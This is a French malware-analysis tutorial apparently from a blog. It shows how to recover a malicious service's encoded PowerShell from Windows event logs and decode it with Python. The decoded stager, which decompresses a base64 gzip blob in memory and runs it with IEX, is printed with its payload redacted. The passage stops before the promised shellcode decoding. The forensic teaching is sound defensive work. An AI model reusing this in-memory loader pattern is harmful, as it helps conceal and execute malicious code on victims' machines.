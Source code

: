 ```yaml
---
layout: default
permalink: /malwarelab/tuto/decoder-shellcode
title: Décoder les commandes Powershell d'un malware et le shellcode
tag: tuto_malware
category: post
---
```


## Décoder les commandes Powershell d'un malware et le shellcode

Lors de la compromission d'une machine, l'une des premières choses que l'on analyse sont les journaux d'évènement Windows. Ces derniers peuvent nous en dire long sur les actions de l'attaquant. Il est même parfois possible de reconstruire toute la chaîne d'exécution du malware, du vecteur d'entrée à l'exécution du binaire malveillant.

Nous allons ici nous intéresser ici à un malware s'installant sur une machine en se faisant passer pour un service. C'est une technique assez répendue afin d'outrepasser la vigilence de l'utilisateur.

# Décoder le code Powershell

Dans les journaux d'évènements, les traces de commandes Powershell peuvent être visibles dans plusieurs fichiers (Security, Microsoft-Windows-PowerShell/Operational... ). Ici, comme il s'agit d'un service qui s'installe, nous verrons les traces d'exécution dans le fichier Système.evtx (event id : 7045).

![Evtx_PS.png](/img/decode-shellcode/Evtx_PS.png)

Nous allons décoder cette chaîne en base64 simplement avec Python :

```python
>>> import io
>>> import base64

>>> data = "JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8[REDACTED]"

>>> base64.b64decode(data)
b'$\x00s\x00=\x00N\x00e\x00w\x00-\x00O\x00b\x00j\x00e\x00c\x00t\x00 \x00I\x00O\x00.\x00M\x00e\x00m\x00o\x00r\x00y\x00S\x00t\x00r\x00e\x00a\x00m\x00(\x00,\x00[\x00C\x00o\x00n\x00v\x00e\x00r\x00t\x00]\x00:\x00:\x00F\x00r\x00o\x00m\x00B\x00a\x00s\x00e\x006\x004\x00S\x00t\x00r\x00i\x00n\x00g\x00(\x00"\x00H\x004\x00s\x00I\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00K\x001\x00W\x007\x003\x00P\x00a\x00O\x00B\x00P\x00+\x00H\x00P\x004\x00K\x00f\x00c\x00i\x00M\x007\x00S\x00l\x00Q\x00E\x00n\x00J\x00p\x006\x00E\x001\x00m\x00y\x00m\x00/[REDACTED]'
```

A la vue du résultat, les nombreux "\x00" nous ammènent à penser que la chaîne est encodée en UTF-16. Un coup de <code>decode("UTF-16")</code> et le tour est joué !

```Python
>>> base64.b64decode(data).decode("UTF-16")
'$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REEDACTED]"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();'
```

Nous obtenons un script Powershell qui semble contenir encore une couche d'encodage de base64.

```powershell
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REDATCED]")); IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```






![ProcessTree.png](/img/ProcessTree.png)
